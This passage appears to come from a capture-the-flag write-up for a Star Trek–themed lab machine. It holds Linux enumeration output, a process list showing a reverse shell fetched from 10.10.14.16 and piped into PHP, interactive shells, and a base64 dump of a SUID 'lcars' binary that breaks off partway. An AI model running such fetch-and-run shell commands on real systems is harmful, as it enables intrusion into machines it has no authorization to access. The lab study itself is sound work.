root      72968  0.0  0.0      0     0 ?        S    07:09   0:03 [kworker/0:0]
root      72971  0.0  0.0      0     0 ?        S    07:09   0:00 [kworker/1:2]
www-data  72981  0.0  0.0   1040   788 ?        Sl   07:12   0:00 ./msf.bin
root      73084  0.0  0.0      0     0 ?        S    07:39   0:01 [kworker/1:0]
root      73085  0.0  0.0      0     0 ?        S    07:39   0:00 [kworker/u256:0]
root      73088  0.0  0.0      0     0 ?        S    07:50   0:00 [kworker/u256:2]
www-data  73102  0.0  0.0   4336   728 ?        S    07:56   0:00 sh -c curl http://10.10.14.16:8000/php-reverse-shell.php|php
www-data  73104  0.0  0.9 126432 18568 ?        S    07:56   0:00 php
www-data  73105  0.0  0.0   4336   728 ?        S    07:56   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  73109  0.0  0.0   4336  1544 ?        S    07:56   0:00 /bin/sh -i
www-data  73117  0.0  0.0   4496   736 ?        S    08:05   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  73121  0.0  0.0   4496   736 ?        S    08:05   0:00 /bin/sh -i
www-data  73126  0.0  0.4  36008  8856 ?        S    08:06   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data  73127  0.0  0.1  18352  3560 pts/0    Ss   08:06   0:00 /bin/bash
root      73223  0.1  0.0      0     0 ?        S    08:09   0:00 [kworker/0:2]
root      73226  0.0  0.0      0     0 ?        S    08:09   0:00 [kworker/u256:1]
www-data  73233  0.0  0.1  10632  3728 pts/0    S+   08:11   0:00 bash
www-data  73234  0.0  0.1  10748  3600 pts/0    S+   08:11   0:00 bash
www-data  73235  0.0  0.0   4372   704 pts/0    S+   08:11   0:00 tee -a
www-data  73416  0.0  0.1  10700  3016 pts/0    S+   08:13   0:00 bash
www-data  73417  0.0  0.1  36836  3008 pts/0    R+   08:13   0:00 ps aux


[-] Process binaries and associated permissions (from above list):
-rwxr-xr-x 1 root root  1099016 May 16  2017 /bin/bash
lrwxrwxrwx 1 root root        4 Aug 25  2017 /bin/sh -> dash
-rwxr-xr-x 1 root root  1145544 Oct 26  2017 /lib/systemd/systemd
-rwxr-xr-x 1 root root   117160 Oct 26  2017 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   207336 Oct 26  2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   321952 Oct 26  2017 /lib/systemd/systemd-resolved
-rwxr-xr-x 1 root root    39248 Oct 26  2017 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   465712 Oct 26  2017 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    56520 May 18  2017 /sbin/agetty
-rwxr-xr-x 1 root root   788080 Jun 23  2017 /sbin/iscsid
-rwxr-xr-x 1 root root    67720 Mar 27  2017 /sbin/lvmetad
-rwxr-xr-x 1 root root   125144 Apr 19  2017 /usr/bin/VGAuthService
-rwxr-xr-x 1 root root   224208 Oct 11  2016 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root  2472904 Sep 26  2017 /usr/bin/docker-proxy
-rwxr-xr-x 1 root root 40391016 Sep 26  2017 /usr/bin/dockerd
-rwxr-xr-x 1 root root    18504 Jul  4  2017 /usr/bin/lxcfs
-rwxr-xr-x 1 root root    47360 Apr 19  2017 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   178456 Feb 18  2017 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root    14552 Oct 21  2016 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root 13269576 Aug 30  2017 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root    48112 Apr  8  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root   662632 Sep 18  2017 /usr/sbin/apache2
-rwxr-xr-x 1 root root    26632 Dec 22  2016 /usr/sbin/atd
-rwxr-xr-x 1 root root    44472 Apr  5  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root    48440 Apr 11  2016 /usr/sbin/irqbalance
-rwxr-xr-x 1 root root   630104 Sep  8  2016 /usr/sbin/rsyslogd
-rwxr-xr-x 1 root root   795120 Mar 30  2017 /usr/sbin/sshd
-rwxr-xr-x 1 root root   170400 Nov  3  2016 /usr/sbin/xinetd


[-] Contents of /etc/xinetd.conf:
# Simple configuration file for xinetd
#
# Some defaults, and include /etc/xinetd.d/

defaults
{

# Please note that you need a log_type line to be able to use log_on_success
# and log_on_failure. The default is the following :
# log_type = SYSLOG daemon info

}

includedir /etc/xinetd.d


[-] /etc/xinetd.d is included in /etc/xinetd.conf - associated binary permissions are listed below:
total 32
drwxr-xr-x  2 root root 4096 Sep  9  2017 .
drwxr-xr-x 95 root root 4096 May 28 03:35 ..
-rw-r--r--  1 root root  640 Nov  3  2016 chargen
-rw-r--r--  1 root root  502 Nov  3  2016 daytime
-rw-r--r--  1 root root  391 Nov  3  2016 discard
-rw-r--r--  1 root root  422 Nov  3  2016 echo
-rw-r--r--  1 root root  154 Sep  9  2017 lcars
-rw-r--r--  1 root root  569 Nov  3  2016 time


[-] /etc/init.d/ binary permissions:
total 208
drwxr-xr-x  2 root root 4096 May 28 03:35 .
drwxr-xr-x 95 root root 4096 May 28 03:35 ..
-rwxr-xr-x  1 root root 2243 Feb  9  2016 acpid
-rwxr-xr-x  1 root root 2225 Dec  8  2016 apache-htcacheclean
-rwxr-xr-x  1 root root 8181 Dec  8  2016 apache2
-rwxr-xr-x  1 root root 6484 Mar 16  2017 apparmor
-rwxr-xr-x  1 root root 2802 Nov 17  2017 apport
-rwxr-xr-x  1 root root 1071 Aug 21  2015 atd
-rwxr-xr-x  1 root root 1904 Nov 17  2015 cgroupfs-mount
-rwxr-xr-x  1 root root 2080 Sep 26  2016 console-setup.sh
-rwxr-xr-x  1 root root 3049 Apr  5  2016 cron
-rwxr-xr-x  1 root root  937 Apr 29  2016 cryptdisks
-rwxr-xr-x  1 root root  896 Apr 29  2016 cryptdisks-early
-rwxr-xr-x  1 root root 2813 Aug 15  2016 dbus
-rwxr-xr-x  1 root root 3843 Aug 17  2017 docker
-rwxr-xr-x  1 root root 4352 Mar 15  2013 ebtables
-rwxr-xr-x  1 root root  985 Nov  1  2016 grub-common
-rwxr-xr-x  1 root root 3809 Nov  8  2016 hwclock.sh
-rwxr-xr-x  1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x  1 root root 1503 Feb 16  2017 iscsid
-rwxr-xr-x  1 root root 2038 Sep 26  2016 keyboard-setup.sh
-rwxr-xr-x  1 root root 2087 Apr  4  2016 kmod
-rwxr-xr-x  1 root root  695 Mar 27  2017 lvm2
-rwxr-xr-x  1 root root  571 Mar 27  2017 lvm2-lvmetad
-rwxr-xr-x  1 root root  586 Mar 27  2017 lvm2-lvmpolld
-rwxr-xr-x  1 root root 2300 Jan 24  2017 lxcfs
-rwxr-xr-x  1 root root 2240 Apr  5  2017 lxd
-rwxr-xr-x  1 root root 2653 Jul 26  2016 mdadm
-rwxr-xr-x  1 root root 1249 Jul 26  2016 mdadm-waitidle
-rwxr-xr-x  1 root root 4597 Nov 25  2016 networking
-rwxr-xr-x  1 root root 2503 Feb 16  2017 open-iscsi
-rwxr-xr-x  1 root root 1846 Feb 28  2017 open-vm-tools
-rwxr-xr-x  1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x  1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x  1 root root 1191 Jul 10  2016 procps
-rwxr-xr-x  1 root root 4149 Jun  8  2016 resolvconf
-rwxr-xr-x  1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x  1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x  1 root root 1222 Apr  4  2017 screen-cleanup
-rwxr-xr-x  1 root root 4033 Mar 30  2017 ssh
-rwxr-xr-x  1 root root 6087 Mar 28  2017 udev
-rwxr-xr-x  1 root root 2083 Jan 10  2017 ufw
-rwxr-xr-x  1 root root 1391 Apr  4  2017 unattended-upgrades
-rwxr-xr-x  1 root root 1306 Nov 16  2016 uuidd
-rwxr-xr-x  1 root root 2443 Nov  3  2016 xinetd


### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.19p1


[-] Apache version:
Server version: Apache/2.4.25 (Ubuntu)
Server built:   2017-09-18T15:08:28


[-] Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


[-] Installed Apache modules:
Loaded Modules:
 core_module (static)
 so_module (static)
 watchdog_module (static)
 http_module (static)
 log_config_module (static)
 logio_module (static)
 version_module (static)
 unixd_module (static)
 access_compat_module (shared)
 alias_module (shared)
 auth_basic_module (shared)
 authn_core_module (shared)
 authn_file_module (shared)
 authz_core_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 autoindex_module (shared)
 deflate_module (shared)
 dir_module (shared)
 env_module (shared)
 filter_module (shared)
 mime_module (shared)
 mpm_prefork_module (shared)
 negotiation_module (shared)
 php7_module (shared)
 reqtimeout_module (shared)
 setenvif_module (shared)
 socache_shmcb_module (shared)
 ssl_module (shared)
 status_module (shared)


### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/curl


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 1635 Aug 25  2017 /etc/passwd
-rw-r--r-- 1 root root 884 Aug 25  2017 /etc/group
-rw-r--r-- 1 root root 596 Oct 17  2017 /etc/profile
-rw-r----- 1 root shadow 982 Aug 25  2017 /etc/shadow


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 2969 Apr 27  2016 /etc/debconf.conf
-rw-r--r-- 1 root root 973 Feb  1  2017 /etc/mke2fs.conf
-rw-r--r-- 1 root root 14867 Oct 13  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 703 Mar 22  2017 /etc/logrotate.conf
-rw-r--r-- 1 root root 1359 Sep  8  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 523 Aug 25  2017 /etc/nsswitch.conf
-rw-r--r-- 1 root root 144 Aug 25  2017 /etc/kernel-img.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 2584 Aug  2  2016 /etc/gai.conf
-rw-r--r-- 1 root root 3028 Apr 12  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 604 Oct 31  2016 /etc/deluser.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 2683 Jul 10  2016 /etc/sysctl.conf
-rw-r--r-- 1 root root 289 Nov  3  2016 /etc/xinetd.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 100 Jul 13  2016 /etc/sos.conf
-rw-r--r-- 1 root root 350 Aug 25  2017 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 7965 Oct 17  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 191 Sep  6  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 4781 Jan 24  2017 /etc/hdparm.conf
-rw-r--r-- 1 root root 6920 Jan 11  2017 /etc/overlayroot.conf


[-] Location and contents (if accessible) of .bash_history file(s):
/home/jeanlucpicard/.bash_history


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Apr 12  2017 .
drwxr-xr-x 14 root root 4096 Aug 25  2017 ..


[+] Looks like we're hosting Docker:
Docker version 17.09.0-ce, build afdb6d4


### SCAN COMPLETE ####################################
www-data@enterprise:/$
```

```sh
www-data@enterprise:/$ cd /bin/
www-data@enterprise:/bin$ ls -l lcars
-rwsr-xr-x 1 root root 12152 Sep  8  2017 lcars
www-data@enterprise:/bin$ base64 lcars
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
/4sIhcl1CelE////jXQmAIuS+P///4XSdO1VieWD7BRQ/9KDxBDJ6ST///+LFCTDVYnlU4PsBOjE
/v//gcOkKAAAg+wMjYOw3f//UOgf/v//g8QQg+wMjYO03f//UOgN/v//g8QQg+wMjYPo3f//UOj7
/f//g8QQg+wMjYMc3v//UOjp/f//g8QQg+wMjYOw3f//UOjX/f//g8QQg+wMjYNQ3v//UOjF/f//
g8QQkItd/MnDVYnlU4Hs1AAAAOg9/v//gcMdKAAA6GL///+D7AyNg43e//9Q6JP9//+DxBCD7AyN
g6ve//9Q6IH9//+DxBCLg/D///+LAIPsDFDoTf3//4PEEIPsCI2FMP///1CNg8Te//9Q6IT9//+D
xBCD7AiNhTD///9QjYPI3v//UOgL/f//g8QQkItd/MnDVYnlU4HspAEAAOiz/f//gcOTJwAAx4Us
////AAAAAOjO/v//g+wMjYPt3v//UOj//P//g8QQg+wMjYPw3v//UOjt/P//g8QQg+wMjYMg3///
UOjb/P//g8QQg+wMjYMu3///UOjJ/P//g8QQg+wMjYM73///UOi3/P//g8QQg+wMjYNG3///UOil
/P//g8QQg+wMjYNS3///UOiT/P//g8QQg+wMjYNn3///UOiB/P//g8QQg+wMjYN23///UOhv/P//
g8QQg+wMjYN+3///UOhd/P//g8QQi4Pw////iwCD7AxQ6Cn8//+DxBCD7AiNhSz///9QjYOS3///
UOhg/P//g8QQi4Us////g/gHD4fsAQAAweACi4QYxOD//wHY/+CD7AyNg5jf//9Q6AH8//+DxBCL
g/D///+LAIPsDFDozfv//4PEEIPsCI2FZP7//1CNg8Te//9Q6AT8//+DxBCD7AyNg7zf//9Q6ML7
//+DxBCLg/D///+LAIPsDFDojvv//4PEEOh0/v//6XUBAACD7AyNg/nf//9Q6JL7//+DxBCLg/D/
//+LAIPsDFDoXvv//4PEEIPsCI2FZP7//1CNg8Te//9Q6JX7//+DxBCD7AyNgxDg//9Q6FP7//+D
xBCLg/D///+LAIPsDFDoH/v//4PEEOgF/v//6QYBAACD7AyNg0jg//9Q6CP7//+DxBCLg/D///+L
AIPsDFDo7/r//4PEEOjV/f//6dYAAACD7AyNg43e//9Q6PP6//+DxBCD7AyNg6ve//9Q6OH6//+D
xBCLg/D///+LAIPsDFDorfr//4PEEIPsCI2FMP///1CNg8Te//9Q6OT6//+DxBCD7AiNhTD///9Q
jYPI3v//UOhr+v//g8QQ62qD7AyNg4jg//9Q6If6//+DxBCLg/D///+LAIPsDFDoU/r//4PEEOg5
/f//6z2D7AyNg0jg//9Q6Fr6//+DxBCLg/D///+LAIPsDFDoJvr//4PEEOgM/f//6xCD7AxqAOhC
+v//6AcAAACQkItd/MnDVYnlU4PsBOiq+v//gcOKJAAAg+wMjYPk4P//UOgF+v//g8QQi4Pw////
iwCD7AxQ6NH5//+DxBCQi138ycNVieVTg+w06Gz6//+Bw0wkAADHRfQAAAAAi0X0jVABiVX0xkQF
0nCLRfSNUAGJVfTGRAXSaYtF9I1QAYlV9MZEBdJji0X0jVABiVX0xkQF0mGLRfSNUAGJVfTGRAXS
cotF9I1QAYlV9MZEBdJki0X0jVABiVX0xkQF0mGLRfSNUAGJVfTGRAXSMYtF9I1QAYlV9MZEBdIA
g+wIjUXSUP91COjy+P//g8QQiUXwg33wAHUH6P/7///rEoPsDI2DIOH//1DoIPn//4PEEIuD8P//
/4sAg+wMUOjs+P//g8QQg+wMagDoD/n//41MJASD5PD/cfxVieVTUYPsEOh4+f//gcNYIwAAg+wE
agBqAGoA6JT4//+DxBDojPr//4PsDI2DQ+H//1Dovfj//4PEEIuD8P///4sAg+wMUOiJ+P//g8QQ
i4Ps////iwCD7ARQagmNRe9Q6H/4//+DxBCD7AyNRe9Q6Jj+//+DxBC4AAAAAI1l+FlbXY1h/MNm
kGaQZpBmkGaQZpBmkFVXVlPo5/j//4HDxyIAAIPsDItsJCCNs+j+///ot/f//42D5P7//ynGwf4C
hfZ0JTH/jbYAAAAAg+wE/3QkLP90JCxV/5S75P7//4PHAYPEEDn+deODxAxbXl9dw412APPDAABT
g+wI6IP4//+Bw2MiAACDxAhbwwMAAAABAAIAAAAAACAgICAgICAgICAgICAgICAgX19fX19fXyBf
X19fX19fICBfX19fX18gX19fX19fXwAAAAAgICAgICAgICAgfCAgICAgIHwgICAgICAgfF9fX19f
fCB8X19fX18vIHxfX19fX18AAAAAICAgICAgICAgIHxfX19fXyB8X19fX18gIHwgICAgIHwgfCAg
ICBcXyBfX19fX198AAAAAFdlbGNvbWUgdG8gdGhlIExpYnJhcnkgQ29tcHV0ZXIgQWNjZXNzIGFu
ZCBSZXRyaWV2YWwgU3lzdGVtCgBEaXNhYmxlIFNlY3VyaXR5IEZvcmNlIEZpZWxkcwBFbnRlciBT
ZWN1cml0eSBPdmVycmlkZToAJXMAAFJlcm91dGluZyBUZXJ0aWFyeSBFUFMgSnVuY3Rpb25zOiAl
cwAKAABMQ0FSUyBCcmlkZ2UgU2Vjb25kYXJ5IENvbnRyb2xzIC0tIE1haW4gTWVudTogCgAxLiBO
YXZpZ2F0aW9uADIuIFNoaXBzIExvZwAzLiBTY2llbmNlADQuIFNlY3VyaXR5ADUuIFN0ZWxsYUNh
cnRvZ3JhcGh5ADYuIEVuZ2luZWVyaW5nADcuIEV4aXQAV2FpdGluZyBmb3IgaW5wdXQ6IAAlZAAA
AABFbnRlciBTeXN0ZW0gTmFtZSBhbmQgV2FycCBTcGVlZDogAAAKVW5hYmxlIHRvIGNvbXBseS4g
QW50aW1hdHRlciBpbmplY3RvcnMgYXJlIG5vdCByZXNwb25kaW5nCgoARW50ZXIgTmV3IEJyaWRn
ZSBMb2c6IAAKVW5hYmxlIHRvIGNvbXBseS4gVGVydGlhcnkgZGF0YSBub2RlcyBhcmUgT2ZmbGlu
ZQoKAAAAAApTZWNvbmRhcnkgUm91dGluZXMgbm90IGltcGxlbWVudGVkClJldHVybmluZyB0byBN
YWluIE1lbnUKCgAAAAAKU2Vjb25kYXJ5IFJvdXRpbmVzIG5vdCBpbXBsZW1lbnRlZApSZXR1cm5p
bmcgdG8gTWFpbiBNZW51CgBe2///gNn//+/Z//9e2v//jtr///ra//8n2///VNv//wpTZWNvbmRh
cnkgUm91dGluZXMgbm90IGltcGxlbWVudGVkClRlcm1pbmF0aW5nIENvbnNvbGUKAAAAAApJbnZh
bGlkIENvZGUKVGVybWluYXRpbmcgQ29uc29sZQoARW50ZXIgQnJpZGdlIEFjY2VzcyBDb2RlOiAA
AAABGwM7WAAAAAoAAADQ8///dAAAAHD0//+YAAAA8PX//6wAAAB09v//0AAAAP72///0AAAACvr/
/xgBAABI+v//PAEAADH7//9YAQAA0Pv//4wBAAAw/P//2AEAABQAAAAAAAAAAXpSAAF8CAEbDAQE
iAEAACAAAAAcAAAAVPP//6AAAAAADghGDgxKDwt0BHgAPxo7KjIkIhAAAABAAAAA0PP//xAAAAAA
AAAAIAAAAFQAAAA89f//hAAAAABBDgiFAkINBUSDAwJ8xcMMBAQAIAAAAHgAAACc9f//igAAAABB
DgiFAkINBUeDAwJ/xcMMBAQAIAAAAJwAAAAC9v//DAMAAABBDgiFAkINBUeDAwMBA8XDDAQEIAAA
AMAAAADq+P//PgAAAABBDgiFAkINBUSDA3bFwwwEBAAAGAAAAOQAAAAE+f//6QAAAABBDgiFAkIN
BUSDAzAAAAAAAQAA0fn//5EAAAAARAwBAEcQBQJ1AEQPA3V4BhADAnV8AnzBDAEAQcNBxUMMBARI
AAAANAEAADz6//9dAAAAAEEOCIUCQQ4MhwNBDhCGBEEOFIMFTg4gaQ4kRA4oRA4sQQ4wTQ4gRw4U
QcMOEEHGDgxBxw4IQcUOBAAAEAAAAIABAABQ+v//AgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
